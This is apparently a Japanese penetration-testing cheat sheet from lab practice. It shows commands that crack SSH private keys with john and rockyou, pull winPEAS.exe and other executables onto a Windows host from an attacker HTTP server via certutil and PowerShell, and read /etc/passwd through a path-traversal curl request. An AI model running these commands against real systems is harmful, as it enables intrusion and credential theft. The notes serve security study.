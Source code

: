 ##### 使用例

###### ssh の秘密鍵を john で扱える形式に変換

```bash
ssh2john.py id_rsa > john_id_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa
```

#### certutil

Windows システム上から HTTP サーバ上のファイルをダウンロードするときに使用

##### 基本

```bash
certutil -urlcache -f http://10.10.118.108:8080/winPEAS.exe winPEAS.exe
```

##### オプション

##### 使用例

Powershell でもできる（Invoke-WebRequest は wget
にエイリアス設定されているので wget も使える）

```
powershell -c "Invoke-WebRequest -Uri 対象URI -OutFile 保存するローカルパス"
powershell -c "wget -Uri http://10.10.118.108:8080/ASCService.exe -OutFile ASCService.exe"
```

#### curl

##### 基本

##### オプション

##### 使用例

```bash
curl -X POST http://x.x.x.x/path/to_file.php -d 'method=POST&file=../../../etc/passwd' --output -
```

#### searchsploit

exploit-db.com のコマンド ライン検索ツール

##### 基本

```bash
searchsploit software_name version
```

### metasploit コマンド関連

#### metasploit

##### 主なコンポーネント
